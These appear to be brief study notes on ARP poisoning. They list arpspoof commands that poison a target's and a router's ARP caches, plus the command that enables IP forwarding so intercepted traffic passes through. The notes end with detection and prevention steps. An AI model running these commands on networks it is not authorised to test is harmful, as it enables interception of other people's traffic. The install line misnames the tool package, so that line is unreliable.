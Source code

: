 ```yaml
---
title: ARP Poisoning
date: 2024-01-28 14:15:56 -0600
updated: 2024-01-30 20:47:48 -0600
---
```


````bash
sudo apt install dnssniff

arpspoof -i <interface> -t <target-ip> <router-ip>
arpspoof -i <interface> -t <gateway-ip> <target-ip>
````

The target device will not have access to the internet after running the above commands  
Our device is not an router and does not forward incoming packets  

We need to unable Port Forwarding: `echo 1 > /proc/sys/net/ipv4/ip_forward`

### Prevention

#### ARP Poisoning
Manually check the ARP table for duplicate MAC Addresses  
**Xarp**: Application used to automatically detect ARP poisoning

#### Detect ARP Storm
Wireshark - Protocol - ARP - Detect ARP Request Storm  
Analyze - Expert Information  
Alternate approach is to define Static ARP
